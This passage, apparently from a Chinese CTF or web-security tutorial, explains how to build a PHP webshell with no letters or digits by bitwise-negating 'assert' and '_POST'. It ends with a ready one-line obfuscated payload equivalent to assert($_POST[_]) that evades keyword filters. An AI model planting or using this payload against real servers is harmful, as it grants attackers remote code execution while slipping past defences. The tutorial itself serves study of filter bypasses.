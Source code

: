 2、取反~

取反也是php中的一种运算符，关于取反的具体规则可以参考这篇文章：https://blog.csdn.net/WilliamsWayne/article/details/78259501，写得挺详细的，取反的好处就是，它每一个字符取反之后都会变成另一个字符，不像异或需要两个字符才能构造出一个字符。

方法一

首先，我们想要构造的依然是assert($_POST[_])这条语句，和上面一样，我们先用php的取反符号~将字符串assert和_POST取反，这里需要注意的是，由于它取反之后会有大量不可显字符，所以我们同样需要将其url编码，然后当我们要用的时候，再利用取反符号把它们取回来即可，具体请见下图：

![img](assets/202304161656941.png)

可以看到，assert的取反结果是%9E%8C%8C%9A%8D%8B，_POST的取反结果是%A0%AF%B0%AC%AB，那我们就开始构造：

```php
$_=~(%9E%8C%8C%9A%8D%8B);    //这里利用取反符号把它取回来，$_=assert
$__=~(%A0%AF%B0%AC%AB);      //$__=_POST
$___=$$__;                   //$___=$_POST
$_($___[_]);                 //assert($_POST[_]);
放到一排就是：
$_=~(%9E%8C%8C%9A%8D%8B);$__=~(%A0%AF%B0%AC%AB);$___=$$__;$_($___[_]);
```

![img](assets/202304161656867.png)
